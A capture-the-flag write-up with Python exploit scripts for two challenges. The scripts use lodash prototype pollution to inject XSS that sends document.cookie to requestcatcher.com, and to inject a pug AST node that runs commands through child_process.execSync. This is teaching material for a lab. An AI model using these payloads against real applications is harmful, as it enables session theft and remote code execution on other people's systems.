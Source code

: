 # Valentina 1
Exploit: Prototype Pollution and XSS

The npm library `lodash` is very old - the specific version that Valentina is using is vulnerable to prototype pollution. 

TL;DR - prototype pollution is a JavaScript-specific vulnerability that abuses prototypal inheritance to poison the base JS object with properties you want. This affects ALL objects.

2 potential ways to solve. 

1. Proto-pollute the `doctype` value of the homepage with an XSS payload, and make Valentina visit the homepage.

```py
import requests

url = "http://localhost:8999/add_review"

payload = "fetch('https://requestcatcher.com/'+document.cookie)"

review = requests.post(url,
                       data='{"__proto__": {"doctype": "HTML> <script>fetch(\"requestcatcher?x=\"+document.cookie)</script"}}', headers={'content-type': 'application/json'})
```

2. Notice that the npm library `xss` was being used to clean potentially harmful input out of user-submitted reviews. You can proto-pollute objects with a `whiteList` property to make the `xss` library ignore potentially harmful characters. Inject XSS into a review and make Valentina visit `/view_review`.

```py
import requests

url = "http://localhost:8999/add_review"

payload = "fetch('https://requestcatcher.com/'+document.cookie)"

review = requests.post(url,
                       data='{"__proto__": {"whiteList": {"script": []}}, "message": "<script>' + payload + '</script>"}', headers={'content-type': 'application/json'})

id = review.text.split(":")[1]

print("http://localhost:8999/view_review?review_id=" + id)
```

# Valentina 2
Exploit: Prototype Pollution and AST injection to achieve RCE

Same deal with lodash. The site has a template engine (pug). You can use prototype pollution to inject [AST](https://en.wikipedia.org/wiki/Abstract_syntax_tree) (via the pug `block` property) during the compile/parse phase of the template engine and achieve RCE.

```python
import requests

TARGET_URL = 'https://valentina.ctf.maplebacon.org'
#TARGET_URL = localhost


requests.post(TARGET_URL + '/add_review', json = {
    "__proto__" : {
            "block": {
                "type": "Text", 
                "line": "process.mainModule.require('child_process').execSync(`echo hello`)"
        }
    }
})
```

This will also work for Val 1.
